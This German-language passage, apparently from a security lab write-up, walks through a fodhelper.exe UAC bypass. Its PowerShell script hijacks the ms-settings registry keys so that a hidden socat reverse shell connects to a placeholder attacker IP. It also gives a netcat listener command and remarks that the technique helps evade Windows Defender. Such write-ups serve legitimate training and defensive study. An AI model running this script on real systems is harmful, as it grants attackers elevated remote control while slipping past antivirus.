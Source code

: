 Der von @V3ded vorgeschlagene Exploit-Code verwendet PowerShell, um dies zu erreichen. Hier ist eine angepasste Version davon, um unsere Reverse-Shell zu verwenden (stellen Sie sicher, dass Sie Ihre IP-Adresse entsprechend ersetzen):
```powershell
$program = "powershell -windowstyle hidden C:\tools\socat\socat.exe TCP:<attacker_ip>:4445 EXEC:cmd.exe,pipes"

New-Item "HKCU:\Software\Classes\.pwn\Shell\Open\command" -Force
Set-ItemProperty "HKCU:\Software\Classes\.pwn\Shell\Open\command" -Name "(default)" -Value $program -Force
    
New-Item -Path "HKCU:\Software\Classes\ms-settings\CurVer" -Force
Set-ItemProperty  "HKCU:\Software\Classes\ms-settings\CurVer" -Name "(default)" -value ".pwn" -Force
    
Start-Process "C:\Windows\System32\fodhelper.exe" -WindowStyle Hidden
```

Dieser Exploit erstellt eine neue progID mit dem Namen **.pwn** und verknüpft unser Payload mit dem Befehl, der beim Öffnen solcher Dateien verwendet wird. Dann verweist er den CurVer Eintrag von ms-settings auf unsere .pwn progID. Wenn "fodhelper" versucht, ein ms-settings Programm zu öffnen, wird es stattdessen auf die .pwn progID verwiesen und verwendet den zugehörigen Befehl.

Diese Technik ist wahrscheinlicher, Windows Defender zu umgehen, da wir mehr Freiheit haben, wo wir unser Payload platzieren, da der Name der "progID", die unser Payload enthält, völlig willkürlich ist. Starten wir eine neue Reverse-Shell auf dem Angreifer-Rechner:
`nc -lvp 4445`

Und führen den Exploit von unserer Backdoor-Verbindung aus. Als Ergebnis wird Windows Defender einen weiteren Alarm auslösen, der auf unsere Aktionen verweist:  
![2024-07-08-36a12bfed5c44fedf170f934bd4bc9ca.png](Bilder/2024-07-08-36a12bfed5c44fedf170f934bd4bc9ca.png)

